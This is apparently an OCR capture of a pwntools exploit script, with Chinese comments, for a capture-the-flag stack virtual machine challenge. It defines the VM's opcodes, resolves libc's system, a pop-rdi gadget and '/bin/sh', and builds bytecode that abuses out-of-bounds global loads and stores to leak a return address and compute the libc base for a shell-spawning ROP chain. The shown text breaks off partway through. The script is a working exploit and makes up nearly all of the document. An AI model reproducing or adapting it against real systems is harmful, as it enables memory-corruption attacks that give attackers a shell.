 ```python
from pwn import *

NOOP    = p32(0)
IADD    = p32(1)   # int add
ISUB    = p32(2)
IMUL    = p32(3)
ILT     = p32(4)   # int less than
IEQ     = p32(5)   # int equal
BR      = p32(6)   # branch
BRT     = p32(7)   # branch if true
BRF     = p32(8)   # branch if true
ICONST  = p32(9)   # push constant integer
LOAD    = p32(10)  # load from local context
GLOAD   = p32(11)  # load from global memory
STORE   = p32(12)  # store in local context
GSTORE  = p32(13)  # store in global memory
PRINT   = p32(14)  # print stack top
POP     = p32(15)  # throw away top of stack
CALL    = p32(16)  # call function at address with nargs,nlocals
RET     = p32(17)  # return value from function
HALT    = p32(18)


# 计算真实地址, 存在栈上, sp 是低位, sp-1 是高位
def get_real_addr(libc_addr):
    code  = LOAD + p32(1)
    code += LOAD + p32(0)
    code += ICONST + p32(libc_addr)
    code += IADD
    return code

# 写入地址
def write_to_gobals(offset):
    code  = GSTORE + p32(offset)
    code += GSTORE + p32(offset + 1)
    return code

libc = ELF('./libc-2.31.so')
libc___libc_start_main_ret = 0x000240b3
libc_system = libc.sym['system']
libc_pop_rdi_ret = 0x00023b72
libc_ret = libc_pop_rdi_ret + 1
libc_str_bin_sh = next(libc.search(b'/bin/sh'))

code  = CALL + p32(4) + p32(1) + p32(0) # sp 指向 *globals
code += STORE + p32(3) + STORE + p32(2) # 将 *globals_low 存在 locals[2], *globals_high 存在 locals[3] 中
code += POP + POP                       # sp 指向 *code
code += STORE + p32(0) + STORE + p32(1) # 将 *code 的高 8 byte 和 低 8 byte 存起来
code += LOAD + p32(1) + LOAD + p32(0)   # 恢复
code += ICONST + p32(114514)            # 修改一下 code_size, 万一 ip 太大了呢?
code += ICONST + p32(0)                 # 这块空间用作对齐, 直接跳过就行
code += LOAD + p32(1) + LOAD + p32(0)   # 修改 *globals
# code += ICONST + p32(140)             # 修改一下 nglobals, 调试用
code += ICONST + p32(0)

'''
code[0x84 = 132] 是 rbp (old rbp)
code[0x84 + 2 = 134] 是 ra_low
code[0x84 + 3 = 135] 是 ra_high
offset = ra - libc___libc_start_main_ret
而, libc___libc_start_main_ret 比较小, 所以只需要用 ra 的低位去减, 高位不变, 即可得到 offset.
'''
code += GLOAD + p32(134)
```